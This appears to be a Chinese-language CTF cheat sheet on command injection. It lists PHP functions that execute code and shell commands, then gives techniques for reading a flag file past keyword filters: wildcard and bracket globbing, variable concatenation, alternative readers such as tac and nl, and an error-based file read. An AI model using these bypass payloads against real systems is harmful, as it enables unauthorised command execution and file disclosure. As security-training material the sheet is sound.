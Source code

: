 # 命令执行

## 命令执行函数

**PHP代码执行函数**

```txt
eval()		//把字符串作为PHP代码执行
assert()	//检查一个断言是否为 FALSE，可用来执行代码
preg_replace()	//执行一个正则表达式的搜索和替换
call_user_func()//把第一个参数作为回调函数调用
call_user_func_array()//调用回调函数，并把一个数组参数作为回调函数的参数
array_map()	
```

**PHP命令执行函数**

```php
system()		//执行外部程序，并且显示输出
exec()			//执行一个外部程序
shell_exec()	//通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
passthru()		//执行外部程序并且显示原始输出
pcntl_exec()	//在当前进程空间执行指定程序
popen()			//打开进程文件指针
proc_open()		//执行一个命令，并且打开用来输入/输出的文件指针
```

## 文件名绕过

```sh
cat fl[abc]g.php                                 //匹配[abc]中的任何一个
cat f[a-z]ag.txt                                 //匹配a-z范围的任何字符
cat fla*                                         //用*匹配任意
a=f;d=ag;c=l;cat $a$c$d.php 表示cat flag.php       //内联执行
```

## 过滤关键字，如过滤 cat，flag等关键字

### 替代

```php
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261 //报错出文件内容
```
